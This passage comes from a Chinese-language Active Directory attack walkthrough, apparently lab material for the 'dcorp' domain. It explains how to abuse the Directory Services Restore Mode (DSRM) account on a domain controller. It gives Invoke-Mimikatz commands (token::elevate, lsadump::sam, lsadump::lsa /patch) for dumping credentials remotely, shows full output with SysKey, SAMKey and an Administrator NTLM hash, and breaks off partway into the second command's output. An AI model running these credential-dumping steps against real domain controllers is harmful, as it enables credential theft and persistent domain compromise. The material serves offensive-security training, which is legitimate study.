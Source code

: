 ```
目录服务还原模式。除了krbtgt服务帐号外，域控上还有个可利用的账户：目录服务还原模式（DSRM）账户，这个密码是在DC安装的时候设置的，所以一般不会被修改

用有DA权限的shell，运行下面命令，dump出DSRM的哈希密码
```
PS C:\ad> Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

544     {0;000003e7} 1 D 17963          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;00783275} 0 D 7877279     dcorp\svcadmin  S-1-5-21-1874506631-3219952063-538504511-1122   (12g,26p)       Primary
 * Thread Token  : {0;000003e7} 1 D 7921384     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz(powershell) # lsadump::sam
Domain : DCORP-DC
SysKey : 85462b93fc25ee67bb07ad899096199b
Local SID : S-1-5-21-1752050383-1088309824-3131404450

SAMKey : 33e0913ef3886d77d5873060bcea1cfb

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: a102ad5753f4c441e3af31c97fad86fd

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount
```

可以看到这里的Administrator的哈希(也就是DSRM的密码)是：```a102ad5753f4c441e3af31c97fad86fd```

再用下面命令dump出现在Administrator的密码，与上面DSRM的密码进行比较
```
PS C:\ad> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/
